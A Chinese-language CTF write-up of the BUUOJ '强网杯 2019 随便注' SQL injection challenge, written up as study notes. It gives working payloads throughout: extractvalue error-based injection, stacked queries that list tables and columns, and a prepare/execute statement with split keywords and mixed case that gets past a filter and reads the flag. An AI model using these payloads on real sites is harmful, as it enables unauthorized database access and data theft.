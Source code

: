 ### buuoj_[强网杯 2019]随便注（sql注入）

打开界面，先测试一下闭合

![](https://pic.imgdb.cn/item/60f3cd465132923bf82f91ac.jpg)

然后构造语句

```
/?inject=1' and (extactvalue(1,concat(0x7e,(select database()),0x7e))) --+
```

![](https://pic.imgdb.cn/item/60f3cda55132923bf833047e.jpg)

返回了个正则过滤

修改一下语句

```
?inject=1' and extractvalue(0x0a,concat(0x0a,(database()))) --+
```

![](https://pic.imgdb.cn/item/60f3cde55132923bf8356aeb.jpg)

获得数据库名

然后输出表名，列名

```
0';show tables;#
```

![](https://pic.imgdb.cn/item/60f3d0985132923bf84f195d.jpg)

```
0';show columns from words;#
```

![image-20210718145716948](C:\Users\EXCEPTION\AppData\Roaming\Typora\typora-user-images\image-20210718145716948.png)

```
0';show columns from `1919810931114514`;#		#不知道为什么要加单引号，但是不加不行。
```

![](https://pic.imgdb.cn/item/60f3d1455132923bf8558feb.jpg)

然后就，不会了，难搞

然后看了下大佬的wp，tql tql

构造playload

```
1';set @a=concat("sel","ect flag from `1919810931114514`");prepare hello from @a;execute hello;#		#concat将两个字符串结合起来，即select flag from ''
```

![](https://pic.imgdb.cn/item/60f3d4785132923bf8740772.jpg)

返回了一个过滤语句，但是可以使用大小写混淆绕过

```
1';SEt @a=concat("sel","ect flag from `1919810931114514`");prEPare hello from @a;execute hello;#
```

![](https://pic.imgdb.cn/item/60f3d4b75132923bf8765330.jpg)

成功了，太强了大佬

补充，感觉和函数调用确实挺像的

>1. PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字供之后调用
>2. EXECUTE ：执行命令
>3. DEALLOCATE PREPARE：释放命令
>4. SET：设置变量
